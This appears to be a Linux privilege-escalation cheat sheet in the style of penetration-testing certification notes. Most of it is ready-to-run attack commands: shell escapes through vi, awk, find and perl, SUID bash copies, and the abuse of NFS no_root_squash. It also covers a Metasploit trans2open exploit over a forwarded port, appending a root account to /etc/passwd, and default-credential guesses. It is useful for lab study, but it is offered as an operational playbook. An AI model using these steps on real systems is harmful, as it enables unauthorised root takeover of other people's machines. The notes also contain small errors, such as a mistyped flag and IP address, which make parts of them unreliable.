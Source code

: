 
sqsh

sqsh -S 10.11.1.227:27900 -U sa -P password

#### Add export path
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/tmp

#### jailed shell? Try this

1. ssh sara@127.0.0.1 "/bin/sh"
2. cd $HOME
3. mv .bashrc .bashrc.bak
4. exit
5. ssh sara@172.0.0.1

#### root priv esc

sh -c 'cp $(which bash) .; chmod +s ./bash'
bash -p


sudo git -p --help
!/bin/bash //pagination root privilege esc


From within VI:
:set shell=/bin/sh
:shell

from within IRB:
exec "/bin/sh"

awk -> awk 'BEGIN {system("/bin/bash")}'
find-> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
perl-> perl -e 'exec "/bin/bash";'

##### find which bin file awk is in

find / -name udev -exec /usr/bin/awk 'BEGIN {system("/bin/bash -i")}' \;



g0tmilk's Guide to Linux Privilege Escalation as well:
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

I just got a low-priv shell !
What would S1REN do right now?
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200


S1REN would say:
Various Capabilities?
which gcc
which cc
which python
which perl
which wget
which curl
which fetch
which nc
which ncat
which nc.traditional
which socat

Compilation? (Very Back Burner)
file /bin/bash
uname -a
cat /etc/*-release
cat /etc/issue


What Arch?
file /bin/bash

Kernel?
uname -a

Issue/Release?
cat /etc/issue
cat /etc/*-release

Are we a real user?
sudo -l
ls -lsaht /etc/sudoers

Are any users a member of exotic groups?
groups <user>


Check out your shell's environment variables...
env
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Users?
cd /home/
ls -lsaht

Web Configs containing credentials?
cd /var/www/html/
ls -lsaht

SUID Binaries?
find / -perm -u=s -type f 2>/dev/null

GUID Binaries?
find / -perm -g=s -type f 2>/dev/null

SUID/GUID/SUDO Escalation:
https://gtfobins.github.io/

Binary/Languages with "Effective Permitted" or "Empty Capability" (ep):
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.
getcap -r / 2>/dev/null


We need to start monitoring the system if possible while performing our enumeration...
In other words:
"S1REN... Is privilege escalation going to come from some I/O file operations being done by some script on the system?"
https://github.com/DominicBreuker/pspy/blob/master/README.md
cd /var/tmp/
File Transfer --> pspy32
File Transfer --> pspy64
chmod 755 pspy32 pspy64
./pspy<32/64>

What does the local network look like?
netstat -antup
netstat -tunlp

Is anything vulnerable running as root?
ps aux |grep -i 'root' --color=auto

MYSQL Credentials? Root Unauthorized Access?
mysql -uroot -p
Enter Password:
root : root
root : toor
root :

S1REN would take a quick look at etc to see if any user-level people did special things:
cd /etc/
ls -lsaht
Anything other than root here?
• Any config files left behind?
→ ls -lsaht |grep -i ‘.conf’ --color=auto

• If we have root priv information disclosure - are there any .secret in /etc/ files?
→ ls -lsaht |grep -i ‘.secret’ --color=aut

SSH Keys I can use perhaps for even further compromise?
ls -lsaR /home/

Quick look in:
ls -lsaht /var/lib/
ls -lsaht /var/db/

Quick look in:
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/

File Transfer Capability? What can I use to transfer files?
which wget
which curl
which nc
which fetch (BSD)
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

NFS? Can we exploit weak NFS Permissions?
cat /etc/exports
no_root_squash?
https://recipeforroot.com/attacking-nfs-shares/

[On Attacking Machine]
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machines user-level privilege.>

[On Target Machine]
user@host$ ./suid
#

Where can I live on this machine? Where can I read, write and execute files?
/var/tmp/
/tmp/
/dev/shm/

Any exotic file system mounts/extended attributes?
cat /etc/fstab

Forwarding out a weak service for root priv (with meterpreter!):
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.
https://www.offensive-security.com/metasploit-unleashed/portfwd/

Forwarding out netbios-ssn EXAMPLE:
meterpreter> portfwd add –l 139 –p 139 –r [target remote host]
meterpreter> background
use exploit/linux/samba/trans2open
set RHOSTS 0.0.0.0
set RPORT 139
run

Can we write as a low-privileged user to /etc/passwd?
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd
su siren
id

Cron.
crontab –u root –l

Look for unusual system-wide cron jobs:
cat /etc/crontab
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created?
find / -user miguel 2>/dev/null

Any mail? mbox in User $HOME directory?
cd /var/mail/
ls -lsaht

Linpease:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

Traitor:
https://github.com/liamg/traitor

GTFOBins:
https://gtfobins.github.io/

PSpy32/Pspy64:
https://github.com/DominicBreuker/pspy/blob/master/README.md

